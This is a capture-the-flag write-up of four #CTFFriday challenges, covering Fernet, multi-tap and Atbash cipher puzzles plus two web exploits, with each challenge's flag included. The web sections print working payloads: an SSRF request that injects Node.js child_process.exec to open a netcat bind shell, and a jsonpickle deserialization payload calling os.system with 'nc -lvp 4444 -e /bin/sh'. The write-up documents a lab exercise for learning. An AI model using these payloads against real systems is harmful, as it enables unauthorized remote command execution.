


# #CTFFriday 2020MayWeek5 

* Date: 29th May 2020
* Time: 2:00 to 3:00 PM

## Organized By

    

 <span style="color:red"> Net Square Solutions Pvt. Ltd.</span>                              

## About Me

Hi,

I am [Smit Patel](https://twitter.com/smit_2307) and I am currently working as a Security Analyst at  [Net Square Solutions Pvt. Ltd.](https://net-square.com) I participated in ctf as ```sk```


## Overview

This ```CTF``` is build by [Kalyan Reddy](https://twitter.com/3kr426) . There were 4 challenges based on Cryptography and Web. For solving this challanges you need basic knowladge of Crptography, Python deserialization and SSRF. 

<h3>Challenge-1</h3>

**Hints :**

* Hint for the first flag is Fernet

**Description :**

* For the first flag we have to download one `zip` file and that zip file contained one text file named ```key.txt```. Then i opended That text file. 

 

* Then i observed hint and i got to know that it was a ```Fernet symmetric encryption``` cryptography and then I used online Fernet decoder and i entered that token and key. after that i got the first flag.

* ```nsctf{Y3h_b@burao_ka_style_hai}``` 

 

<h3>Challenge-2</h3>

**Hints :**

* Hint for the second flag is

   First hint:

   
    
   second hint:
    
   

**Description :**

* Now for the second Flag we have to Download another `zip` file and that file contained following strings:

 

* After the observation i got to know that `Multi-Tap Phone cipher` is used here and then i used online [Multi-tap Phone Cipher](https://www.dcode.fr/multitap-abc-cipher) and entered that string and i got following text 

* `MHXGUBLFZIVTIVZGVIGSZMBLFIZWWRXGRLM`

 

* From the second hint i observed the text and i got to know that it was an `Atbash Mirror cipher`

* So first of all the Atbash cipher is a particular type of monoalphabetic cipher formed by taking the alphabet and mapping it to its reverse, so that the first letter becomes the last letter, the second letter becomes the second to last letter, and so on. 

* Then i used online [Atbash cipher](http://rumkin.com/tools/cipher/atbash.php) decoder and i got the second flag.

* `NSCTFYOUAREGREATERTHANYOURADDICTION`

 

<h3>Challenge-3</h3>

**Hints :**

* first hint is Try to identify the open ports by using loopback address
* second hint is After identifing the port Try to get the bind shell by using node js.

**Description :**

* Third challenge is based on web. For this challenge we have to open one link. 

 

* After that i entered some text into submit query field on that link and intercepted that request using `Burpsuite` tool and sent that request to repeater and observed the response.

 

* From the first hint i tried SSRF by entering this payload  `http://127.0.0.1:80` in url field and i observed the response. 

 

* After that i sent that request to Intruder for scanning the ports and set the position and started attack by clicking on start attack button.

 

* By oobserving the result of attack i got to know another hint at port number `3000`.

 

* Then i got to know that here `Node.js` programming language is used by Wappalyzer extension.

 

* Then i tried this paylod `http://127.0.0.1:3000` in url field and i got another clue from the response. 

 

* From the second hint i tried to get bind shell for that i used this payload `http://127.0.0.1:3000?cmd=require("child_process").exec('nc -lvp 4444 -e /bin/sh')`  in url field. 

 

* Then i used Netcat to get bind shell for that i used following command `nc -v 10.90.137.137 4444` 
and i got the third flag.

* `nsctf{Tann_buddha_hove_hai ... mann_buddha_nahi_hota}`

 

<h3>Challenge-4</h3>

**Hints :**

* Intercept the request identify the vulnerability and try to exploit.
* Take the bind shell by using the jsonpikle

**Description :**

* For the fourth flag one link is given. 

 

* From the first hint i intercepted that request by `Burpsuite` tool and observed the request then i got to know that there is some encoded value in `username` parameter. 

 

* Then i copied that encoded value and pasted in burpsuit decoder tab and tried to decode it. After decoding i got following text:

 `{"py/object": "__main__.User", "username": "Bobmarley"}` 

*  Here we have `py/object` it indicates that json pickle was used on server side.

 

* From the second hint i got to know that i have to take a bind shell using jsonpickle for that i encoded This payload into base64.

 ```{"py/object": "_main_.Shell", "py/reduce": [{"py/function": "os.system"}, ["nc -lvp 4444 -e /bin/sh"], 0, 0, 0]}```

 

* Then i entered that encoded value into username field and forwarded that request.

 

* Then i used netcat to get bind shell on port number 4444 and i got the fourth flag.

* `nsctf{d0n't_dr!nk_@nd_Dr!v3_y0u_can_smoke_@nd_fly}`

 

-------
**It was a very nice CTF by [Kalyan Reddy](https://twitter.com/3kr426). We had lots of fun by solving it and learnt new things.**

 Here are the scoreboard of CTF.

 

